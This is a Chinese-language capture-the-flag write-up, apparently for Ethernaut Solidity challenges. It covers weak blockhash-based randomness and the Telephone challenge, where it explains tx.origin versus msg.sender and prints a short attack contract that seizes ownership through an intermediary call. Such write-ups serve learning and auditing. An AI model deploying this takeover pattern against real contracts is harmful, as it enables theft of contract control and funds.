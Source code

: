 *漏洞：*

而通过`block.blockhash(block.number - 1)`获取负一高度的区块hash来生成随机数的方式是极易被攻击利用的。

*原理：*

一个区块包含多个交易，我们可以先运行一下上述除法计算的过程获取结果究竟是0还是1。



## Telephone

### 挑战条件

- 获取合约所有权

### 漏洞

`tx.origin`是Solidity的一个全局变量，它遍历整个调用栈并返回最初发送调用（或事务）的帐户的地址。

这道题需要了解`tx.origin`和`msg.sender`的区别。假设A、B、C都是已经部署的合约，如果我们用A去调用C，即A->C，那么在C合约看来，A既是`tx.origin`，又是

`msg.sender`。如果调用链是A->B->C，那么对于合约C来说，A是`tx.origin`，B是`msg.sender`，即`msg.sender`是直接调用的一方，而`tx.origin`是交易的原始发起者，和英文也对应着。因此本题直接外部部署合约调用changeOwner函数即可完成。

总结：

- tx.origin是**交易**发送者

- msg.sende是**消息**发送者

### 攻略

- 创建合约代码如下：

  ```solidity
  // SPDX-License-Identifier: MIT
  /*
  anyway，就是用我的账户地址新建一个合约B，通过合约B来调用合约A，我的地址就是tx.origin，B对于A就是msg.sender
  */
  pragma solidity ^0.6.0;
  
  interface Telephone {
    function changeOwner(address _owner) external;
  }
  
  contract attack{
    address public instance;
    constructor(address _instance) public{
      instance = _instance;
    }
  
     function hack() public{
       Telephone(instance).changeOwner(msg.sender);
     }
  }
  
  ```
